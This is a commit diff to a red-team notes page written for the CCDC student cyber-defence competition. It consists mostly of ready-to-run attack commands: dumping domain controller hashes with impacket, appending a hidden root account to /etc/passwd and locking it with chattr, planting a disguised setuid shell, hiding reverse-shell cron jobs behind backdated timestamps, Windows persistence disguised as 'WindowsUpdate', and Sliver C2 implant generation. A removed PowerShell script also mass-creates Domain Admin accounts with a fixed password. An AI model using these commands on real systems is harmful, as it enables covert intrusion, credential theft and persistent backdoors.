

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/RedTeamingCCDC.md, in a window 1280 px wide and 1400 px high, scrolled down 690 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
updated notes

````diff
--- a/markdown/RedTeamingCCDC.md
+++ b/markdown/RedTeamingCCDC.md
@@ -18,35 +18,26 @@
       - e.g. `impacket-secretsdump -just-dc -no-pass 'corp.local/TEST-DC$@10.10.0.162'` (DC name is TEST-DC)
 
 - **Persistence:**
-  - Linux:
+  - **Domain:**
+    - Run `mass_user_add_local.sh` with domain admin creds/hash against a DC to add a bunch of domain admins
+      - Pass is `IWinAgain123#`
+    - Grab `krbtgt` (and other) hashes with `impacket-secretsdump
+  - **Windows:**
+    - When installing the exes, make sure to use `-o` with `iwr` or we'll just get the HTTP connection info lmfao
+    - First, run `windows_add_payloads.ps1` to add the file to each of the locations
+    - Then, run `windows_persistence.ps1`
+  - **Linux:**
     - Add SSH keys
       - `mkdir /root/.ssh` and add key to `/root/.ssh/authorized_keys`
     - Modify `/etc/passwd` and `/etc/ssh/sshd_config`
       - `echo 'wwwdata:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash' >> /etc/passwd && chattr +i /etc/passwd && echo 'PermitRootLogin yes' >> /etc/ssh/sshd_config && chattr +i /etc/ssh/sshd_config`
     - Use setuid binaries in weird locations (like a fake .kernel file):
       - `cp /bin/zsh /.kernel && chmod +sss /.kernel && touch -d "4 May 2024" /.kernel && chattr +i /.kernel`
-      - `chattr` makes the file immutable (even as ROOT????)
-        - We could also use this to add permanent persistence to /etc/passwd or /etc/shadow :o
+      - `chattr` makes the file immutable (and gives ROOT a generic access denied error???)
     - Cron jobs:
       - Make innocuous cron jobs that are just shells sending out continuous connections
       - Upload shell to `/etc/cron.hourly/locate`, `touch -d "12 Jul 2024" /etc/cron.hourly/locate` to make it non-sus, and `chattr +i /etc/cron.hourly/locate`
         - Has to start with a `#!/bin/bash`
-  - Windows:
-    - When installing the exes, make sure to use `-o` with `iwr` or we'll just get the HTTP connection info lmfao
-    - Scheduled tasks: `persistence install --method schtask --name "WindowsUpdate" --interval 600 --hidden`
-    - Registry (run on login?): `persistence install --method registry --name svchost`
-    - WMI: `persistence install --method wmi --name "WindowsWMIUpdate"`
-    - Services: `sc create MySvc binPath= "C:\Path\to\implant.exe" start= auto`
-    - Startup:
-      - Add script to `C:\Windows\System32\GroupPolicy\User\Scripts\Logon\`
-      - Runs on user login: `$path = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\evil.lnk"`
-    - Backdooring domain:
-      - `./mass_user_add_local.sh`
-        - This adds a bunch of users to the domain
-    - MSSQL server:
-      - Theoretically, we could set up an additional MSSQL server in order
-- Web apps:
-  - Get in, change passwords, modify something about the web app or use it for access
 
 **AutoRecon**
 - Command to run at the start of competition: `sudo autorecon {IP_range} -p 21,22,23,25,53,80,110,111,135,139,143,389,443,445,465,636,873,993,995,1025-1030,1080,1433,1521,1723,3306,3389,5432,5900,5985,6379,6667,8000,8080,8443,8888 -o autorecon_results --max-scans 100 --heartbeat 30`
@@ -64,11 +55,12 @@
   - Start up tmux and run `sliver-server`
   - On the server: `new-operator --name malfuncti0nal --lhost localhost` and `multiplayer` to enable clients
   - On the client, outside of tmux: `sliver-client import {config_file}` and `sliver-client` to join
-- `mtls` can be used to start listening for incoming sessions
+- `wg` can be used to start listening for incoming sessions on a sneaky wireguard udp (use mtls otherwise if we dont get a callback)
+  - Seems it doesn't mix well with Windows, unfortunately. Plan on mtls for windows, wg for linux.
 - Then, use `generate` to create implants or beacons
-  - `generate --mtls {our_IP} --os linux` for an implant
-  - `generate beacon --mtls 10.10.0.171 -j {jitter} -S {wait_seconds} --os linux`
-  - Windows: `generate --mtls 10.10.0.171 --os windows --arch x64 --format exe `
+  - `generate --wg {our_IP} --os linux` for an implant
+  - `generate beacon --wg 10.10.0.171 -j {jitter} -S {wait_seconds} --os linux`
+  - Windows: `generate --mtls 10.10.0.171 --os windows`
 - `sessions` to show active sessions
   - `sessions -i {id}` to interact with session
     - `CTRL + d` to exit
@@ -146,29 +138,10 @@
   - GPO management > right-click domain > Create GPO in domain and link here > Right click on new GPO + edit > User Configuration\Policies\Administrative Templates\Desktop\Desktop > desktop wallpaper > select `enabled` + enter path of image and select fill for style > apply + ok > `gpupdate /force`
 
 **Todo:**
-- Practice using sliver for session management
-- Make windows persistence script? If we can get sliver working, this should be taken care of
--
+- Improve domain persistence (not just adding a bunch of users and grabbing krbtgt)
 
-**Ideas:**
-
-```
-Import-Module ActiveDirectory
-$N = 50
-$outputFile = ".\created_users.txt"
-"" > $outputFile
-
-for ($i = 1; $i -le $N; $i++) {
-    $username = -join ((65..90) + (97..122) | Get-Random -Count 10 | ForEach-Object {[char]$_})
-    $password = "Kh43lWuzH3r3"
-    $securePass = ConvertTo-SecureString $password -AsPlainText -Force
-
-    New-ADUser -Name $username -SamAccountName $username -AccountPassword $securePass -Enabled $true
-    Add-ADGroupMember -Identity "Domain Admins" -Members $username
-
-    "$username : $password" | Out-File -Append $outputFile
-}
-```
+**Unimplemented Ideas:**
+- None rn
 
 **Defender/AppArmor/SELinux**
 - Defender:
````
